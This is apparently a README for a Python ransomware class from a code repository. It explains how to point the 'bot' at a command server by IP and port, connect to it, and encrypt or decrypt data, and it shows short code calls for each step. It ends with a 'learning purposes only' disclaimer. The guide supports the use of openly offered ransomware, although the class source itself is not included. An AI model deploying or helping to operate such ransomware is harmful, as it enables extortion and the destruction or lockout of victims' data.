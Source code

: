 ===============================
Ransomware Class Usage Guide
===============================

The provided code creates a `Ransomware` class with methods for encrypting and decrypting data.

1. **Initialization**: When initializing a `Ransomware` object, you need to provide the IP address (`host`) and port (`port`) of the server you want to connect to.

.. code-block:: python

    bot = Ransomware('192.168.1.12', 19100)

2. **Connecting to the Server**: The `ConnectServer` method attempts to connect to the server via the provided IP address and port. If it cannot connect after 3 attempts, the system will reset.

.. code-block:: python

    bot.ConnectServer()

3. **Encryption**: The `Encrypted` method encrypts data using the generated private key.

.. code-block:: python

    bot.Encrypted()

4. **Decryption**: The `Decrypted` method decrypts data using the same private key.

.. code-block:: python

    bot.Decrypted()

Please note: This code should only be used for learning purposes. Using it to perform illegal activities (such as cyber attacks) can lead to serious legal consequences. Always comply with legal regulations when using and developing open source code.